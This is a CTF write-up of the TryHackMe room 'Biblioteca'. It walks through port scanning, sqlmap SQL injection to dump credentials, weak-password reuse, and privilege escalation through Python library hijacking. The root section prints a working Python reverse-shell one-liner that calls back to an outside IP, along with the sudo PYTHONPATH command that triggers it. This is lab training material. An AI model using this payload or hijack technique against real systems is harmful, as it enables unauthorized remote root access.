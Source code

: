 ```yaml
---
title: "Biblioteca - TryHackMe"
date: 2022-05-23T20:45:50-03:00
---
```


https://tryhackme.com/room/biblioteca

## **User Flag**

First, we start by enumerating the ports and services.  
In the print below I have already set the ports to 22 and 8000 because I found out that they were open in a regular scan without any nmap flags.

![biblioteca](/biblioteca/PortScan.png)

\
I access the website and see that there is a login page. I try to create a user in the Sign-Up link to see what it looks like in there, but there is nothing interesting there.

![biblioteca](/biblioteca/Port8000.png)

![biblioteca](/biblioteca/UserLoggedIn.png)

\
Since the first page is a login page, I quickly try some SQL Injection with sqlmap, first by intercepting the POST request and then using it with the sqlmap command.

![biblioteca](/biblioteca/RequestIntercepted.png)

![biblioteca](/biblioteca/sqlmap.png)

\
We can observe that the parameter username is vulnerable so I start to retrieve informations from the database. You can see in the image above that the Database is called website.  

As this is a TryHackMe host probably the database is small, so to gain some time I use the flag –dump-all to dump everything from the website database.

![biblioteca](/biblioteca/DumpandoInfos.png)

\
Here I got a username and password and immediately try these credentials in SSH.

![biblioteca](/biblioteca/ssh-login.png)

\
Trying to find the flag, we see that it is in the hazel home and we don’t have permissions to read it. So, we need to find some way to login as hazel.

![biblioteca](/biblioteca/PermissaoNegada.png)

\
In this part I got stuck for a few minutes and I need to look at the hint. The hint was “Weak password”, so I just tried a simple password combination and “hazel”, same as the username, worked it.

Now logged as hazel, we just need to *cat* the user.txt and get the first flag.

![biblioteca](/biblioteca/flag-user.png)

## **Root Flag**

The first thing I do when I need to privilege escalation is to check the permissions with sudo and if there is something interesting in this user.

![biblioteca](/biblioteca/sudo-l.png)

\
We see that hazel can use the command python3 with root permissions in the file *hasher.py*.

Taking a look at this file, we see that there is a library being used: *hashlib*.

![biblioteca](/biblioteca/hasherPython.png)

\
Here we can do something that is called Python Library Hijacking. Basically, we just need to modify the library file and insert some malicious payload to get this payload executed by root.

This [article](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/) explains this exploration in a very clear way.

Since we don’t have permission to edit the current library file, we copied it to the /tmp directory.

![biblioteca](/biblioteca/libtmp.png)

\
Now we can edit it and insert a python reverse shell payload with our tun0 address.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.117.185",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

![biblioteca](/biblioteca/payloadLib.png)

\
We need to execute the python file with the PYTHONPATH argument, to tell where python will search for the libraries included in the hasher.py. When we execute the hasher.py, it will call the library hashlib and since there is this playload in the library file, the reverse shell will be popped in our listener.

Remember to set your listener before executing the command.

```
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
```

![biblioteca](/biblioteca/comando.png)

\
Finally we obtain our reverse shell and just cat root.txt for the second flag.

![biblioteca](/biblioteca/flag-root.png)

See ya =).